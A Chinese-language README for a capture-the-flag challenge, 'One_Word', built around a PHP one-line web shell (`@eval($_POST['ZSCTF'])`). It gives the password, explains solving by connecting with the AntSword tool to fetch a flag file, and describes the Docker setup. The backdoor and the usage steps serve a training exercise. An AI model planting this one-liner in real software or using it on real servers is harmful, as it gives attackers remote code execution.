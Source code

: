 # One_Word
* 题目简介：嘘！连上就有flag，偷偷告诉你连接的密码是` ZSCTF`。

* HINT：源码：`<?php
@eval($_POST['ZSCTF']);
?>`
PS：HINT在比赛进行到一半仍较少人做出该题是放出

* 解法：通过查看提供的密码使用蚁剑或者其他工具连上index.php，下载处于根目录下的flagXXXXX文件，获取flag

* 考点：PHP一句话木马

* 题目搭建：运行`build_docker.sh` 一键搭建。flag为静态，生成后会在根目录下。`entrypoint.sh`脚本会随机修改flag文件的名字，名字为flagXXXXX，请酌情修改脚本。
